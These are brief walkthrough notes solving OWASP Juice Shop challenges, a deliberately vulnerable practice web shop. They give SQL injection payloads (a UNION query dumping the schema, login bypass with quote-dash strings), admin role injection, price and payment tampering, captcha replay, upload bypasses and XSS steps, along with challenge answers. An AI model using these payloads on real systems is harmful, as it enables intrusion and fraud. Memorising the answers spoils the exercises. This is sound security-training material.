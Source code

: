 ## Register Admin
- capture a create user request in burp
- add a section "role":"admin"

## Bjoern's Pet
- bjoern@owasp.org
- pets name is Zaya

## Captcha Bypass
- customer feedback page
- capture the review in burp
- send to intruder
- change to null payload and clear symbols
- send 10 times

## Database Schema
- capture /rest/produts/search
- insert banana'))UNION%20SELECT%20sql,2,3,4,5,6,7,8,9%20FROM%20sqlite_master--

## Deluxe Fraud
- navigate to become a member
- capture /rest/deluxe
- change to post
- add {"paymentMode":"none","paymentId":9}

## Forged Feedback
- capture customer feedback
- change userid 

## Forged Review
- caputre editing review
- change to PUT /rest/products/6/reviews
- change or add {"id":"6G3HpeSPsHZvoq8s7","message":"I bought it, would buy again."}

## GDPR Data Erasure
- login with chris.pike@juice-sh.op'--

## Login Amy
- amy@juice-sh.op
- K1f.....................

## Login Bender
- login with
- bender@juice-sh.op'--

## Login Jim
- jim@juice-sh.op'--

## Manipulate basket
- capture request adding to basket
- change to POST
{"ProductId":1,"BasketId":1,
"quantity":3,
"BasketId":5}

## Payback time
- capture adding something to cart
- turn amount into -10000
- checkout

## Privacy Policy inspection
- /we/may/also/instruct/you/to/refuse/all/reasonably/necessary/responsibility

## Product Tampering
- login as admin
- navigate to the product
- change to PUT /api/Products/9 HTTP/1.1 
- add Content-Type: application/json
- add  {"description": "<a href=\"https://owasp.slack.com\" target=\"_blank\">More...</a>"}

## Reset Jim's Password
- jim@juice-sh.op
- Samuel

## Upload Size
- capture a file upload 
- replace the stuff with a larger file

## Upload Type
- capture a file upload
- change file extension to jpg
- also another place to jpeg
- replace the stuff with jpeg binary

## API Only XSS
- login as admin
- capture with burp to find the request to an api with the bearer token
- change to post
- add content-type: application/json
- add the payload to the description of a product
- putting \ infront of "

## Client-side XSS Protection
- capture creating user
- send to repeater
- change email to a script
- login to admin
- go to /administration

